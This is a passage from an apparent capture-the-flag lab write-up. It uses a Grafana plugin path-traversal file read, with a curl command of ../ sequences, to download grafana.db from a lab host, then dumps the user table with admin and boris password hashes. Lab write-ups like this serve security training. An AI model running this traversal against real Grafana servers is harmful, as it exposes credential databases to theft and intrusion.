 On [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/grafana), we find an attack vector. We can use our LFI to read the grafana.db file.
```bash
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is <http://10.10.88.246:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db> -o grafana.db 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  584k  100  584k    0     0  1689k      0 --:--:-- --:--:-- --:--:-- 1692k


┌──(kali㉿kali)-[~]
└─$ file grafana.db           
grafana.db: SQLite 3.x database, last written using SQLite version 3035004, file counter 348, database pages 146, cookie 0x109, schema 4, UTF-8, version-valid-for 348
```

In the database file we find an admin and boris user.
```bash
┌──(kali㉿kali)-[~]
└─$ sqlite3 grafana.db
SQLite version 3.44.0 2023-11-01 11:23:50
Enter ".help" for usage hints.
sqlite> .tables
alert                       login_attempt             
alert_configuration         migration_log             
alert_instance              org                       
alert_notification          org_user                  
alert_notification_state    playlist                  
alert_rule                  playlist_item             
alert_rule_tag              plugin_setting            
alert_rule_version          preferences               
annotation                  quota                     
annotation_tag              server_lock               
api_key                     session                   
cache_data                  short_url                 
dashboard                   star                      
dashboard_acl               tag                       
dashboard_provisioning      team                      
dashboard_snapshot          team_member               
dashboard_tag               temp_user                 
dashboard_version           test_data                 
data_source                 user                      
library_element             user_auth                 
library_element_connection  user_auth_token           
sqlite> select * from user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```
